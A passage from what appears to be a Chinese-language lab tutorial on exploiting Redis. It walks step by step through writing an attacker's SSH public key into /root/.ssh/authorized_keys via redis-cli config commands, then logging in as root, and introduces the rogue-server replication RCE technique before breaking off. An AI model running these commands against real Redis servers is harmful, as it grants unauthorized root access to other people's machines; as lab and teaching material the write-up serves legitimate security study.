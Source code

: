 这里将密钥开头和结尾添加了一些`\n`用于防止乱码，并写到key.txt中

```
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt

-e 激活转义字符
添加\n\n的目的是为了安全起见，将内容和一些其他东西分隔开来，以便能够正确解析
```

![RiWhbF.png](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923144623.jpeg)

**4）将公钥写入redis服务器内存**

```
cat key.txt | redis-cli -h 192.168.112.132 -a 123.com -x set pubkey

-x 从标准输入读取数据作为该命令的最后一个参数，将key.txt内容作为变量pubkey的值
```

![RiWWuT.png](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923144625.jpeg)

**5）设置路径和保存的文件名，将内存变量导入至磁盘文件**

保存至/root/.ssh目录下的authorized_keys中（路径不存在需要提前创建）

```
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```

![RiW5E4.png](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923144632.jpeg)

**6）登陆ssh**

远程ssh登陆进192.168.112.132的主机

```
ssh -i id_rsa root@192.168.112.132
```

![RiWIUJ.png](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923144636.jpeg)



### 3、远程主从复制RCE

#### **0x01 简介**

Redis Rogue Server RCE技术：通过远程控制Redis主机使用FULLRESYNC同步文件至从机上，在从机上加载恶意so文件，进而实现远程命令执行。`Redis Rogue Server`的涉及主要技术为Redis的**主从复制**以及**外部模块加载**，攻击思路如下：

**简单点理解就是 我们伪造主机！ 让靶机是从机！ 从容RCE！**

利用原理介绍：https://xz.aliyun.com/t/5665#toc-15



复现一下：
